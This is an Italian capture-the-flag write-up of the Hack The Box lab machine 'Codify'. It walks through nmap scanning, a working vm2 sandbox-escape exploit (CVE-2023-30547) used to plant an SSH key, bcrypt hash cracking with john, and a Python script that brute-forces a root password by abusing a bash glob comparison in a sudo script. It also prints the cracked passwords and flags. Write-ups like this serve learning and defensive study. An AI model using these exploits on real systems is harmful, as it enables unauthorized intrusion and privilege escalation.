






**TARGET: 10.10.11.239**

# INFORMATION GATHERING

Per prima cosa lanciamo un veloce scan con [Nmap](../Note/Tool/Nmap.md)

```bash
┌──(root㉿kali)-[/home/kali/htb/codify]
└─# nmap -sC -sV --min-rate=5000 10.10.11.239
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-19 16:37 EST
Nmap scan report for 10.10.11.239
Host is up (0.086s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.33 seconds

```

abbiamo 3 porte aprte 

- 22 ssh OpenSSH 8.9p1
- 80/tcp  http    Apache httpd 2.4.52 (abbiamo un redirect to http://codify.htb)
- 3000/tcp   http    Node.js Express framework

Un ulteriore scan su tutte le porte non ci da nessuna nuova informazione.

# ENUMERATION

# Port 80

Per prima cosa visto che nmap ci dice che non è stato in grado di eseguire il redirect a `http://codify.htb` lo aggiungiamo al nostro `etc/hosts`

Ci troviamo di fronte ad una web app per testare codice Node.js  dove abbiamo 3 pagine princiali

- About us 
- Editor
- Limitations


Alla pagina `Editor` possiamo inserire il nostro codice Node.js



In `Limitations` Abbiamo delle restrizione nell'utilizzo di alcuni moduli

- child_process
- fs

per evitare di eseguire comandi di sistema e in più ci dice che È possibile importare solo un set limitato di moduli. 

- url 
- crypto
- util
- events
- assert
- stream
- path
- os
- zib



La pagina `About Us` indica che, sebbene Codify esegua il codice sandbox, non è completamente a prova di proiettile.
e utilizza la libreria [vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16) 



# GAINING AN INITIAL FOOTHOLD 

Cercando su google per vm2 exploit troviamo [questo](https://www.bleepingcomputer.com/news/security/new-sandbox-escape-poc-exploit-available-for-vm2-library-patch-now/) articolo dove si fa riferimento alla [CVE-2023-30547](https://github.com/patriksimek/vm2/security/advisories/GHSA-ch3r-j5x3-6q2m) 

Dove ci dice che esiste una vulnerabilità nella sanificazione delle eccezioni di VM2 per le versioni fino alla 3.9.16, che consente agli aggressori di sollevare un'eccezione host non sanitizzata all'interno di handleException() che può essere utilizzata per sfuggire alla sandbox ed eseguire codice arbitrario nel contesto host.

Nell articolo abbiamo il rimando anche alla repo Git dove è presente la [PoC](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

non ci resta che sistemare il codice inserendo la riga `cmd = 'id'` e in `execSync(cmd)`  eseguire comandi arbitrari

```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
cmd = 'id'
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(cmd);
}
`

console.log(vm.run(code));
```



Perfetto siamo in grado di eseguire comandi fuori dalla sendbox e quindi direttamente sul host
Ora utilizzando il comando `id` sappiamo che stiamo eseguendo come utenti svc l'idea è quella di aggiungere la mia chiave pubblica SSH su ~/.ssh/authorized_keys e ottenere l'accesso alla shell come utente corrente, che era svc.

```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
cmd = 'ls  -la ~/; mkdir ~/.ssh; echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0KPoT135o6NYimeB99/EkPCGtPllzs6uZV73gXF4iwV4vOZLH8El9ESdxyqjM0qQxgV0logdcYsiQXbBeLIZomVGaG1K2WwYxBruoXC2JcCFskjhrfiNmt/Wgesxq1HztDBooPUNHrES5q9x7V0mL05BplozTzz3Vy/48RmTBgDAJu0nGAzttE3Gv9oWo0SUBu2ooBOgYErA0mCg1m4kFIA0BhfnRMKonrLmCDzV9tgjgQESElJzGPV74TBZPb2/iW/HyunFCYLkQs5fh0NwhBRNMBqRwxUNz5I6Jkm9RFHmp7AMrGL62Xj+5aW05KKBvsB4DXoQKd/NXqoVw3c9i4NQ4gajBtVRyN5EIRLdEK1Rjy/LhubTu1WKhlnatP8MfvX8dM9Yiz4Tlo2gC7AmEz7iqvkcx7YzVmlvaU1v4ecjl+cc5b393CCvMjjyRiapnkjXhdDtY4PiUYrZ9DUCGX7OtivA16yXwGKhGAGmnyegRNEzvN9YtlH3M/1p00/0=" > ~/.ssh/authorized_keys; cat ~/.ssh/authorized_keys';
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(cmd);
}
`

console.log(vm.run(code));
```



Non ci resta che collegarci in ssh 

```bash

┌──(root㉿kali)-[/home/kali/htb/codify]
└─# ssh svc@codify.htb -i id_rsa
The authenticity of host 'codify.htb (10.10.11.239)' can't be established.
ED25519 key fingerprint is SHA256:Q8HdGZ3q/X62r8EukPF0ARSaCd+8gEhEJ10xotOsBBE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'codify.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Nov 19 10:34:14 PM UTC 2023

  System load:                      0.04296875
  Usage of /:                       69.1% of 6.50GB
  Memory usage:                     22%
  Swap usage:                       0%
  Processes:                        231
  Users logged in:                  0
  IPv4 address for br-030a38808dbf: 172.18.0.1
  IPv4 address for br-5ab86a4e40d0: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.239
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:5c48


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

svc@codify:~$
```

# PERIVESC

## svc --> joshua

Nella cartella `home` abbiamo un utente `joshua` a cui non abbiamo accesso
dobbiamo trovare una via per aumentare i nostri privilegi.

```bash
svc@codify:/home$ ls
joshua  svc
svc@codify:/home$ cd joshua/
-bash: cd: joshua/: Permission denied
```

Nel percorso `/var/www/contact` troviamo un file interessante `tickets.db`

```bash
svc@codify:/var/www/contact$ ls
index.js  package.json  package-lock.json  templates  tickets.db
```

L'esame ha rivelato che si trattava di un file di database SQLite di proprietà dell'utente svc che stavo attualmente eseguendo come:

```bash
svc@codify:/var/www/contact$ ls -la tickets.db
-rw-r--r-- 1 svc svc 20480 Sep 12 17:45 tickets.db
```

iUtilizzando [String](../Note/Tool/String.md) siamo in grado di leggere all'interno 

```bash
svc@codify:/var/www/contact$ strings tickets.db
SQLite format 3
otableticketstickets
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P
Ytablesqlite_sequencesqlite_sequence
CREATE TABLE sqlite_sequence(name,seq)
        tableusersusers
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
    ))
indexsqlite_autoindex_users_1users
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
joshua
users
tickets
Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open
Tom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
```

All'interno abbiamo un hash per utente joshua

`$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2`

Procediamo ad identificare e rompere l'hash

https://hashes.com/en/tools/hash_identifier ci suggerisce che abbiamo un hash bcrypt

non ci resta che salvare l'hash in file .txt e utilizzare [John The Ripple](../Note/Tool/John%20The%20Ripple.md) per forzarlo 

```bash
┌──(root㉿kali)-[/home/kali/htb/codify]
└─# echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hash.txt
```

diamo l'hash in pasto a john 

```bash
┌──(root㉿kali)-[/home/kali/htb/codify]
└─# john hash.txt --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)
1g 0:00:00:48 DONE (2023-11-19 17:51) 0.02073g/s 28.36p/s 28.36c/s 28.36C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Abbiamo la nostra password !!

Utilizziamo il comando su per passare all'utente joshua  e prenderci la user_flag

```bash
svc@codify:/var/www/contact$ su joshua
Password:
joshua@codify:/var/www/contact$ cd ~
joshua@codify:~$ ls
user.txt
joshua@codify:~$ cat user.txt
7d457ba840fba6da850d06eb7deaed19
```

## joshua --> root

Come sempre una delle prime cose da fare è vedere con `sudo -l` se possiamo eseguire qualcosa come privilegi root

```shell-session
joshua@codify:/home/svc$ sudo -l
[sudo] password for joshua:
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

diamo un occhiata allo script

```shell-session
joshua@codify:/home/svc$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
joshua@codify:/home/svc$
```

La vulnerabilità nello script è legata al modo in cui viene gestita la conferma della password:

```bash
if [[ $DB_PASS == $USER_PASS ]]; then
    /usr/bin/echo "Password confirmed!"
else
    /usr/bin/echo "Password confirmation failed!"
    exit 1
fi
```

Questa sezione dello script confronta la password fornita dall'utente (USER_PASS) con la password effettiva del database (DB_PASS). La vulnerabilità qui è dovuta all'uso di == inside [[ ]] in Bash, che esegue la corrispondenza dei modelli anziché un confronto diretto delle stringhe. Ciò significa che l'input dell'utente (USER_PASS) viene trattato come un modello e, se include caratteri glob come * o ?, può potenzialmente corrispondere a stringhe non previste.

Ad esempio, se la password effettiva (DB_PASS) è password123 e l'utente immette * come password (USER_PASS), la corrispondenza del modello avrà esito positivo perché * corrisponde a qualsiasi stringa, determinando un accesso non autorizzato.

Ciò significa che possiamo forzare ogni carattere nel DB_PASS.

per farlo utilizziamo questo script in python 

```bash 
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
for character in all:  
command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
if "Password confirmed!" in output:  
password += character  
print(password)  
break  
else:  
found = True
```

non ci resta che da i permessi d'esecuzione e lanciare lo script

```shell-session
joshua@codify:/tmp$ chmod +x brute.py
joshua@codify:/tmp$ python3 brute.py
[sudo] password for joshua:
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
joshua@codify:/tmp$
```

abbiamo la password, non ci resta che passare all'utente root

```shell-session
joshua@codify:/tmp$ su root
Password:
root@codify:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

e ci prendiamo la nostra root_flag
```shell-sessions
root@codify:/tmp# cat /root/root.txt
fb0339f62830069abf141b4f27060387
```
